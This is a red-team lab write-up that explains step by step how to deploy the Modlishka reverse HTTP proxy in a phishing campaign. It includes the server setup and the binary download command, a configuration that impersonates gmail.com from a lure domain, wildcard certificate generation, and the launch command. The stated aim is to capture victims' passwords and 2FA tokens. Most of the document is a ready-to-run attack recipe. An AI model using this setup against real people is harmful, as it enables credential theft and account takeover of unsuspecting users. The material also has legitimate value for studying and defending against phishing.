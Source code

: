 ```yaml
---
id: hfzpoeck
title: Phishing with Modlishka Reverse HTTP Proxy
file_version: 1.1.3
app_version: 1.12.1
---
```


This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim (MITM) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

<br/>

Once logged on, install certbot and download modlishka binary itself:

```
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

## Modlishka Configuration

Let's create a configuration file for modlishka:

```
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d \*.redteam.me --email noreply@live.com

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem

awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

./Modlishka-linux-amd64 -config modlishka.json

Below shows how by visiting a [redteam.me](http://redteam.me), I get presented with contents of [gmail.com](http://gmail.com) - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

<br/>

This file was generated by Swimm. [Click here to view it in the app](https://swimm-web-app.web.app/repos/Z2l0aHViJTNBJTNBUmVkLVRlYW0tSW5mcmFzdHJ1Y3R1cmUtV2lraSUzQSUzQXVzZXJ0ZXN0aW5nLXN3aW1t/docs/hfzpoeck).
